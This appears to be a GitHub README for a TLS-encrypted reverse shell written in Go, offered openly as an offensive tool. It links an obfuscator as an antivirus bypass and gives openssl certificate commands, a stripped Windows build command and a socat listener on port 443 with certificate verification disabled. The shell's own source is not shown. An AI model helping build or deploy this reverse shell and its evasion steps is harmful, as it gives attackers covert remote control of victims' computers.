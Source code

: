 # go reverse shell secure

A TLS enabled implementation of a clean go reverse shell "rev2go" by sathish09.

**Supports**
- Commands with arguments
- TLS connectivity

**Why Go?** 

Check it out over at his blog. 
- https://medium.com/@sathish__kumar/undetectable-reverse-shell-with-golang-4fd4b1e172c1
- https://github.com/sathish09/rev2go

**AV bypass**

Consider leveraging..
- https://github.com/unixpickle/gobfuscate

**Generate server certificate or disable client validation (yahoo! pew pew pew!)**
```
openssl genrsa -out server.key 2048 
openssl ecparam -genkey -name secp384r1 -out server.key
openssl req -new -x509 -sha256 -key server.key -out server.crt -days 3650
```

**Build for target platform**

Windows:
```
env GOOS=windows GOARCH=386 go build -ldflags "-s -w" -o gors.exe gors.go
```
Use build reference table for specific target architecture.
* https://github.com/sathish09/rev2go#build

**Listener**
```
socat openssl-listen:443,reuseaddr,fork,cert=/tmp/gors/server.pem,cafile=/tmp/gors/server.crt,verify=0 -
```

![image](https://user-images.githubusercontent.com/56988989/69015224-f394b480-0989-11ea-8e42-71038b778e06.png)

Enjoy~
